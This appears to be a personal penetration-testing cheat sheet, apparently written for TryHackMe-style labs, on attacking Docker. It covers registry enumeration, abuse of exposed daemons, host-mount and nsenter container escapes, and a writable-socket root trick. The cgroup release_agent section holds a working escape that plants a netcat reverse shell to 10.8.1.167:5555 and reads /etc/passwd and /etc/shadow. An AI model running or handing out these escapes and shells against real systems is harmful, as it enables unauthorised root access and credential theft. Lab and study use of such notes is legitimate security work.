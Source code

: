 ##### Docker registries
A docker registry is a storage and distribution system for named Docker images. 
The registry is organized into Docker repositories, with information about the current images.
The default port is 5000.

To enumerate Docker registries, use [[docker-grabber]]
To query the Docker images:
```
curl http://IP:PORT/v2/_catalog                        // Get all active Docker images.
curl http://IP:PORT/v2/REPOSITORY/NAME/tags/list       // Get tags of an image.
curl http://IP:PORT/v2/REPOSITORY/NAME/manifests/TAG   // Get info of a tag (usually contains command history)
```

##### Reverse engineering
If you're able to query the data inside of the docker registry (see [[#Docker registries]]), `docker pull` the registry:
```c++
nano /etc/docker/daemon.json
add IP:PORT to the list
systemctl stop docker*
systemctl start docker
systemctl start docker.socket

docker info   // Check if the IP has been added to the insecure registries.
```
try dumping the docker images with [[Dive]]

##### Exposed docker daemon
If you find an exposed docker daemon (Nmap docker, with a lot of info), you can communicate with the image inside.
To confirm access, use `curl http://IP:PORT/version`
To execute code:
```
docker -H tcp://IP:PORT ps                        // List running images
docker -H tcp://IP:PORT exec CONTAINER_ID COMMAND // Execute a command in a container  
use rootplease (haven't figured out yet)
```

##### Exposed internal docker daemon
Assuming you've got a foothold on the target system, check for the "Docker" group using `groups`
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh         // Mount the host system to the internal image
// IMPORTANT NOTE: This won't work on THM servers, or other places without access to the internet.
// To bypass this, replace the "alpine" with the ID of the box, like this:
docker images                                               // Copy the ID of any of the available images.
docker run -v /:/mnt --rm -it ANY_IMAGE_ID chroot /mnt sh   // Mount the host system to the internal image
```

##### Shared namespaces
If you see a lot of processes when running `ps aux`  generally 20+, try this:
```
nsenter --target 1 --mount sh
```
`--target 1`  -- The targetted process (and the target namespace)
`--mount`  -- the mount namespace of the target process
`sh`  -- Execute `sh` in the namespace (kernel)

##### Capabilities
Requirement: a Docker image with `privileged` mode enabled.
The `priveleged` mode means that all capabilities have been granted to the Docker image, allowing it to bypass the Docker Engine and reach the system.
To check if the image is Priveleged, use
```
capsh --print                    // If this gives lots of output, privileged mode is likely enabled.
capsh --print | grep sys_admin   // If this returns output, it is exploitable.
```

Exploitation:
```
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.1.167 5555 >/tmp/f" >> /cmd
echo "cat /etc/passwd > $host_path/output" >> /cmd
echo "cat /etc/shadow > $host_path/output"
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

##### Writable docker socket
To get root in the docker, upload a docker binary.
Secondly, run 
```
./docker run --entrypoint /bin/bash -it --rm HOST_IMAGE_NAME
```

##### Scanning the host
The host of the docker's IP is usually 172.17.0.1
To make sure, use:
```
/sbin/ip route|awk '/default/ { print $3 }'
```
if you scan it using `nmap`, you might find something


### miscellaneous
get full tty: `script /dev/null -c bash`